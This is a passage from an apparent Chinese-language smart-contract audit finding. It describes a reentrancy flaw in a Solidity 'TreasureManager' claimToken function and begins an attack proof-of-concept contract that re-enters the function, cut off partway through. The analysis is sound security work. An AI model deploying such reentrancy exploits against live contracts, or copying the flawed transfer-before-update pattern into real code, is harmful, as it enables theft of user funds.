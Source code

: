 ```solidity
function claimToken() {
    uint256 rewardAmount = userRewardAmounts[msg.sender][tokenAddress];
    require(
        rewardAmount > 0,
        "TreasureManager claimToken: no reward available"
    );
    if (tokenAddress == ethAddress) {
        (bool success, ) = msg.sender.call{value: rewardAmount}("");
        require(success, "TreasureManager claimToken: ETH transfer failed");
    } else {
        IERC20(tokenAddress).safeTransfer(msg.sender, rewardAmount);
    }
    userRewardAmounts[msg.sender][tokenAddress] = 0;
    tokenBalances[tokenAddress] -= rewardAmount;
}
```

#### 漏洞详细信息

- **概括**：`claimToken` 和 `claimAllTokens` 函数由于违反了检查-效果-交互（CEI）模式，容易受到重入攻击。合约在转账后更新用户的奖励余额，从而允许恶意合约在余额更新之前重新进入该函数。
- **影响**：此漏洞可能导致协议遭受严重财务损失。攻击者可能利用此重入漏洞耗尽合约中存储的所有 ETH。影响范围如下：
  - **财务损失**：合约的全部 ETH 余额可能被盗，从而给协议及其用户造成重大的经济损失。
  - **不变量被破坏**：合约的状态可能与实际代币余额不一致。
  - **信任侵蚀**：这种攻击会严重损害协议的声誉，可能会导致用户信任和采用的丧失。
  - **运营中断**：攻击可能会破坏奖励分配系统的正常运行，影响平台的所有用户。
  - **连锁效应**：如果被盗资金用于其他业务或代表用户存款，其影响可能不仅限于直接的财务损失，还可能影响该协议的更广泛的生态系统。
  - **恢复成本**：处理此类攻击的后果将耗费大量的时间、资源，并且可能给受影响的用户带来损失。

由于该漏洞易于利用且可能造成资金完全耗尽，因此其严重性更加突出，因此它是一个需要立即关注和补救的高优先级安全问题。

#### 攻击 POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../src/TreasureManager.sol";

contract AttackTreasureManager {
    TreasureManager public treasureManager;
    address payable public owner;
    uint256 public attackAmount;

    constructor(address _treasureManager) {
        treasureManager = TreasureManager(payable(_treasureManager));
        owner = payable(msg.sender);
    }

    function attackClaimToken(address tokenAddress) external {
        attackAmount = 0;
        treasureManager.claimToken(tokenAddress);
    }

    receive() external payable {
        reentrance();
    }

    fallback() external payable {
        reentrance();
    }

    function reentrance() internal {
        address ethAddress = treasureManager.ethAddress();
```